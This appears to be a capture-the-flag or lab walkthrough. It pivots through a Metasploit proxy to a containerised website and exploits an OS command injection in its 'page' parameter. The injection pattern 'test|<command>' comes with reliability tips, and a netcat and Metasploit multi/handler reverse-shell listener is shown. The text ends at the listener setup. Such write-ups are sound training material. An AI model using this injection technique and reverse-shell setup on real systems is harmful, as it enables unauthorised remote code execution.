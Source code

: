 ```
MAC Address: 02:42:AC:1A:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 108.03 second
```

This is running a website on ports 80 (HTTP) and 443 (HTTPS)

## Visiting the Website

To visit the website we could use curl (like cavemen), or we can configure our browser to work through our Metasploit proxy.
You can try running `proxychains firefox`, but you'll quickly find it's painfully slow.
This is because `proxychains` works by intercepting calls to the system networking libraries,
hooking the functions and redirecting traffic to the proxies in our configuration file.

It would be much faster if the browser had native support for proxies, which Firefox does.
Go to the network settings, and add the details for your proxy there:

![Proxy Settings.png](docs/resources/Proxy Settings.png)


## Attaining Remote Code Execution via Command Injection

Again, feel free to use any of the exploits exposed on the website to achieve a shell here, I'll demonstrate just one of them.

We can exploit an OS command injection vulnerability to attain arbitrary code execution as the user running the web server process.
The URL query parameter at http://172.26.0.2/account/documents?page=delivery.html is vulnerable to OS command injection, so you can run arbitrary OS commands by going to:

http://172.26.0.2/account/documents?page=<your-command-here>

Two notes though:

- Firstly I found increased reliability by putting a test before your command, i.e.
    http://172.26.0.2/account/documents?page=test|<your-command-here>

- Secondly, I found that whenever there was an ampersand in the command, such as a `2>&1`, it stopped reading at the `&` and wouldn't work.

## Setting up the listener - The easy way

You could just do `nc -lvnp 1337` and be done, but if you want a proper meterpreter shell keep reading.

## Setting up the listener - The proper way

```
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(multi/handler) > set LPORT 1337
LPORT => 1337
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 172.17.0.1:1337
```
